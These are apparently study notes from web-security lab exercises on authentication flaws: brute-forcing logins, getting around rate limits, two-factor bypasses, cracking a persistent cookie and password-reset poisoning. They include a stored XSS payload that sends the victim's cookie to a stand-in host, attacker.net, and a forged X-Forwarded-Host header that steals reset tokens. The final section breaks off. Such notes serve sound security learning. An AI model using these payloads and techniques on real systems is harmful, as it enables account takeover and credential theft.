 # password-based login

## Brute-force attacks

### Brute-forcing usernames
##### via different responses:
>1) *in the `POST /login` request*: `username=§invalid-username§`
>2) *Payload*: *Sniper* -> wordlist
>3) **Length** *column* -> different response :  `Invalid username`/`Incorrect password` 
>   => username achieved
>4) `username=identified-user&password=§invalid-password§`
>5) `200` status code except for one, which got a **`302`** 
>   => password achieved

##### via _subtly_ different responses:
> **Settings** tab -> **Grep - Extract**, click Add -> `Invalid username or password`
> *one of the responses contains* **typo**: full stop/period -> trailing space 
> => username achieved
> ...

##### via response timing
> 1) IP gets blocked after several request 
> **`X-Forwarded-For`** header is supported -> *IP spoof*
> 2) use a very *long password* for password field (*time consuming* to proccess)
> 3) *payload*: *Pitchfork* 
>    - `X-Forwarded-For`: Numbers
>    - `username`: wordlist
>    Columns -> **Response received** and **Response completed** -> significant difference 
>    => username achieved
> 4) *payload*: *Pitchfork* 
>    - `X-Forwarded-For`: Numbers
>    - `password`: wordlist
>      -> `302` status
>      => password achieved

## Flawed brute-force protection

##### IP block:
  > **Resource pool** -> *maximum concurrent requests* set to **`1`**
  > - *payload*: *Pitchfork*: 
  >   - `username`: a wordlist which *alternates* between your username and the target
  >   - `password`: a wordlist which *alternates* between your password and a different wordlist for bruteforce the target

##### account lock:
> - *payload*: *Cluster bomb*:
>   - `username`: candidates of valid username
>   - `password`: same password but for each username repeated untill the rate limit gets reached -> **null payload**
>    => `username=§invalid-username§&password=example§§`
> - *`You have made too many incorrect login attempts`*
>   - => username achieved
> - *payload*: *sniper*:
>   - *Grep - Extract* -> the message
>   - `password`: wordlis
>     -> one has no error message 
>     => password achieved
# multi-factor authentication
## Bypassing two-factor authentication

##### simple bypass:
> 1) Log in using the victim's credentials
> 2) When prompted for the verification code -> load `/my-account`  => bypassed :)

##### broken logic:
1) user's logs in:
```http
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
2) a cookie gets assigned that relates to their account:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
3) this cookie to determine which account the user is trying to access -> attacker logs in with their own credential then changes the value of the cookie :
```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
=> attacker can use _his own verification code_ OR _brute force_ it
###### ex:
>1) login with your account 
>2) `POST /login2` request -> `verify` parameter:determines the user's account 
>3) logout
>4) complete the first step -> change the `verify` paramter to target's username -> brute force `mfa-code` parameter 
>   -> 302
>   => bypassed...

# other authentication mechanisms
## Keeping users logged in

##### brute-force:
> 1) *`stay-logged-in` cookie*: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcwCg==`
>    base 64 decode -> `wiener:51dc30ddc473d43a6011e9ebba6ca770` 
>    online cipher identified -> `base64(username+':'+md5HashOfPassword)`  
> 2) *Payload*: *Sniper* -> wordlist
> Under **Payload processing**:
>    - Hash: `MD5`
>    - Add prefix: `(target's username):`
>    - Encode: `Base64-encode`
>- => access to `update email` button in `/my-account` page = cookie generated.

##### offline password cracking:
> 1) `stay-logged-in` cookie -> base64 decode =>`username+':'+md5HashOfPassword`  
> 2) steal the target's cookie from the *comment section* using **XSS**:
>    stored XSS payload -> `<script>document.location='//attacker.net/'+document.cookie</script>`
>    => `carlos:26323c16d5f4dabff3bb136f2460a943`
> 3) bruteforce the password with **hashcat** 
>    => password achieved 

## Resetting user passwords

##### broken logic:
> 1) click the **Forgot your password?**
> 2) request: `POST /forgot-password?temp-forgot-password-token`
> 3) *delete `temp-forgot-password-token` parameter* in both the URL and request body
> 4) Change the `username` parameter to the target's username.
>    => account takeover...

##### password reset poisoning via middleware:
>- **`X-Forwarded-Host`** *header* is supported => `X-Forwarded-Host: attacker.site`
>  => victim's token sent as a query parameter in a `GET /forgot-password` request.
>- change the value of the `temp-forgot-password-token` parameter to the value that you stole from the victim
>  => account takeover
## Changing user passwords
##### password brute-force:
> 1) difference between error messages: 
>     `Current password is incorrect`
>     `New passwords do not match`
> 2) in the `POST /my-account/change-password` request: